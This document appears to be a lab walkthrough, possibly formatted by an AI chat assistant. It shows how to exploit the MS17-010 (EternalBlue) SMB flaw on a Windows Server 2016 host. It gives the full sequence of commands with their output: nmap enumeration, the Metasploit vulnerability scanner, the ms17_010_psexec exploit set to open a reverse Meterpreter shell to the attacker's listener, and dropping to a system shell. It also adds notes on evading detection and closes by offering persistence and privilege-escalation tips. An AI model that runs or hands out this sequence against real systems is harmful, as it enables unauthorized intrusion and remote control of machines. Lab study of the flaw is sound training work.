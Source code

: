 
---

## **1. Enumerate the Host**

Start by scanning the target to identify open ports, services, and the operating system.

**Command:**

```bash
nmap -v -A 10.129.201.97
```

**Findings:**

- **Open Ports:**
    
    - `80` → IIS 10.0 (HTTP)
        
    - `135` → RPC
        
    - `139` → NetBIOS
        
    - `445` → SMB
        
- **Host OS:** Windows Server 2016 Standard (Build 14393)
    
- **Hostname:** SHELLS-WINBLUE
    
- **Workgroup:** WORKGROUP
    

---

## **2. Check for MS17-010 Vulnerability**

Use Metasploit to determine if the target is vulnerable.

**Commands:**

```bash
msfconsole
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.129.201.97
run
```

**Output:**

```
[+] Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64
```

---

## **3. Configure the Exploit and Payload**

Search for EternalBlue-related exploits:

```bash
search eternal
```

Select the **psexec** module:

```bash
use exploit/windows/smb/ms17_010_psexec
```

Set the necessary options:

```bash
set RHOSTS 10.129.201.97
set LHOST 10.10.14.12
set LPORT 4444
```

Optional (for authenticated exploits):

```bash
set SMBUser <username>
set SMBPass <password>
```

---

## **4. Execute the Exploit**

Run:

```bash
exploit
```

**Successful Output:**

```
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.129.201.97:50215)
```

---

## **5. Post-Exploitation**

Check the current user:

```text
meterpreter > getuid
```

Drop into a system shell:

```text
meterpreter > shell
```

**Expected Output:**

```
C:\Windows\system32>
```

---

## **6. Understanding Windows Shells**

|Feature|**CMD (cmd.exe)**|**PowerShell (powershell.exe)**|
|---|---|---|
|**History**|Minimal logging|Maintains command history|
|**Capabilities**|Lightweight, basic commands|Supports complex scripts, .NET, cmdlets|
|**Stealth**|Less detectable|More logging, easier to trace|
|**Usage**|Legacy support, pre-Win7 systems|Available from Windows 7 onward|

**Prompt Indicators:**

- `C:\>` → CMD
    
- `PS C:\>` → PowerShell
    

---

## **7. Advanced Topics**

### **WSL (Windows Subsystem for Linux)**

- Allows execution of Linux binaries within Windows.
    
- Malware may use WSL to evade detection.
    
- WSL traffic can sometimes bypass Windows Defender or firewall rules.
    

### **PowerShell Core on Linux**

- Cross-platform PowerShell environment.
    
- Can be abused for stealthy attacks in hybrid networks.
    

---

## **8. Summary of Tools**

|**Tool**|**Purpose**|
|---|---|
|**Nmap**|Scanning, service detection, banner grabbing|
|**msfconsole**|Exploitation and payload delivery|
|**meterpreter**|Post-exploitation shell|
|**cmd.exe / powershell.exe**|Native Windows shells|

---

## **9. Key Commands Recap**

### **Scan and Banner Grab**

```bash
nmap -v -A <target-ip>
nmap -v --script banner.nse <target-ip>
```

### **Metasploit**

```bash
msfconsole
search eternal
use exploit/windows/smb/ms17_010_psexec
set RHOSTS <target-ip>
set LHOST <your-ip>
set LPORT <port>
exploit
```

### **Meterpreter**

```text
getuid
shell
```

---

Would you like me to add **post-exploitation tips**, such as privilege escalation or persistence techniques, to this guide?